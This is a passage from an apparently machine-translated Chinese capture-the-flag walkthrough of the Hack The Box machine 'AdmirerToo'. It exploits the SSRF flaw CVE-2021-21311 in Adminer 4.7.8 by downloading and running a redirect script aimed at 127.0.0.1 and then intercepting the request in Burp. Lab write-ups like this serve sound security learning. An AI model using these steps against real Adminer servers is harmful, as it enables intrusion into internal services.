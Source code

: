 管理员数据库探索

你在这里做不了什么。寻找漏洞我看到这个版本的 Adminer 是 2020 年 12 月的，这里有几个选项。对于 4.7.8 我们有[CVE-2021–21311](https://www.cvedetails.com/cve/CVE-2021-21311/)与一个漏洞[在这里](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf)。

# SSRF 脆弱性

通读这个漏洞，我们看到有一个 SSRF 漏洞，这里有一个脚本，我们可以用它来重定向请求。让我们抓住它，设置监听:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# wget https://gist.githubusercontent.com/bpsizemore/227141941c5075d96a34e375c63ae3bd/raw/0f5e8968a3490190d72ccefd40f9c6b693918d71/redirect.py
--2022-02-28 22:31:43--
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1290 (1.3K) [text/plain]
Saving to: ‘redirect.py.1’
redirect.py   100%[===============>]   1.26K  --.-KB/s    in 0s      
2022-02-28 22:31:43 (139 MB/s) - ‘redirect.py’ saved [1290/1290]┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
```

等待之后，让我们开始打嗝，这样我们就可以拦截来自浏览器的请求。现在回到网站，准备拦截打嗝，点击此处进入:

![](img/2da40a861d839985626ee439b41b3072.png)

点击回车发送到打嗝

在 Burp 中，我们捕捉到了请求:
